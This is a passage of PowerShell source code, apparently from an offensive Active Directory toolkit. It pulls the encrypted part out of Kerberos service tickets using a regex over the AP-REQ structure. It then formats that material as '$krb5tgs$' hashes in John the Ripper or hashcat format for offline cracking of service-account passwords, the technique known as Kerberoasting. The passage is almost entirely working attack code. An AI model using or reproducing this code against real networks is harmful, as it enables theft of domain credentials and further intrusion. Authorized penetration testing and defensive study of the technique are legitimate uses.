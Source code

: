                 # TicketHexStream == GSS-API Frame (see https://tools.ietf.org/html/rfc4121#section-4.1)
                # No easy way to parse ASN1, so we'll try some janky regex to parse the embedded KRB_AP_REQ.Ticket object
                if($TicketHexStream -match 'a382....3082....A0030201(?<EtypeLen>..)A1.{1,4}.......A282(?<CipherTextLen>....)........(?<DataToEnd>.+)') {
                    $Etype = [Convert]::ToByte( $Matches.EtypeLen, 16 )
                    $CipherTextLen = [Convert]::ToUInt32($Matches.CipherTextLen, 16)-4
                    $CipherText = $Matches.DataToEnd.Substring(0,$CipherTextLen*2)

                    # Make sure the next field matches the beginning of the KRB_AP_REQ.Authenticator object
                    if($Matches.DataToEnd.Substring($CipherTextLen*2, 4) -ne 'A482') {
                        Write-Warning "Error parsing ciphertext for the SPN  $($Ticket.ServicePrincipalName). Use the TicketByteHexStream field and extract the hash offline with Get-KerberoastHashFromAPReq"
                        $Hash = $null
                        $Out | Add-Member Noteproperty 'TicketByteHexStream' ([Bitconverter]::ToString($TicketByteStream).Replace('-',''))
                    } else {
                        $Hash = "$($CipherText.Substring(0,32))`$$($CipherText.Substring(32))"
                        $Out | Add-Member Noteproperty 'TicketByteHexStream' $null
                    }
                } else {
                    Write-Warning "Unable to parse ticket structure for the SPN  $($Ticket.ServicePrincipalName). Use the TicketByteHexStream field and extract the hash offline with Get-KerberoastHashFromAPReq"
                    $Hash = $null
                    $Out | Add-Member Noteproperty 'TicketByteHexStream' ([Bitconverter]::ToString($TicketByteStream).Replace('-',''))
                }

                if($Hash) {
                    # JTR jumbo output format - $krb5tgs$SPN/machine.testlab.local:63386d22d359fe...
                    if ($OutputFormat -match 'John') {
                        $HashFormat = "`$krb5tgs`$$($Ticket.ServicePrincipalName):$Hash"
                    }
                    else {
                        if ($DistinguishedName -ne 'UNKNOWN') {
                            $UserDomain = $DistinguishedName.SubString($DistinguishedName.IndexOf('DC=')) -replace 'DC=','' -replace ',','.'
                        }
                        else {
                            $UserDomain = 'UNKNOWN'
                        }

                        # hashcat output format - $krb5tgs$23$*user$realm$test/spn*$63386d22d359fe...
                        $HashFormat = "`$krb5tgs`$$($Etype)`$*$SamAccountName`$$UserDomain`$$($Ticket.ServicePrincipalName)*`$$Hash"
                    }
                    $Out | Add-Member Noteproperty 'Hash' $HashFormat
                }
